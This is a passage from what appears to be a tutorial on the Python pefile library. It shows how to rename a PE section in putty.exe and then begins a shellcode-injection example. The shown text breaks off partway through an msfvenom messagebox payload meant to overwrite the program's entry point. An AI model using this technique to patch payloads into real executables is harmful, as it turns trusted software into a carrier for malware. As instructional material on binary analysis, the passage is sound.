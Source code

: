 ## Modifying the Structures

One of the most interesting functionality of *pefile* is editing executables. All values support assignment, so we can easily alter an executable. Let's rename the `.text` section as an example:

```python
import pefile

exe_path = "c:\putty.exe"
pe = pefile.PE(exe_path)

print("[*] Original Section name = %s" % pe.sections[0].Name.decode('utf-8'))
print("[*] Editing values...\n")

# Edit values
pe.sections[0].Name = ".axc".encode()

# Save the change in another executable
new_exe_path = r"C:\Users\User\Desktop\new_putty.exe"
pe.write(new_exe_path)

# Check the values
new_pe = pefile.PE(new_exe_path)
print("[*] New Section name = %s" % new_pe.sections[0].Name.decode('utf-8'))
```

**Output**

```bash
[*] Original Section name = .text   
[*] Editing values...

[*] New Section name = .axc
```

Easy, right ?

## Code Injection

Now, let's try to inject code into the executable. Here we will inject a shellcode at the entry point. It will corrupt the executable as we will overwrite the orginal code to execute the shellcode. To do this, we will use the `set_bytes_at_offset()` method. It overwrite the bytes at the given file offset with the given string, it takes 2 arguments:

* `Offset`, containing the offset where we want to write the data 
* `Data`, the data...

```python
import pefile

exe_path = "c:\putty.exe"
pe = pefile.PE(exe_path)

# msfvenom -p windows/messagebox -f py
# Payload size: 272 bytes
# Final size of py file: 1308 bytes
shellcode = bytes(b"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9")
shellcode += b"\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"
shellcode += b"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
shellcode += b"\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28"
shellcode += b"\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34"
shellcode += b"\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84"
shellcode += b"\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24"
shellcode += b"\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
shellcode += b"\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c"
shellcode += b"\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e"
```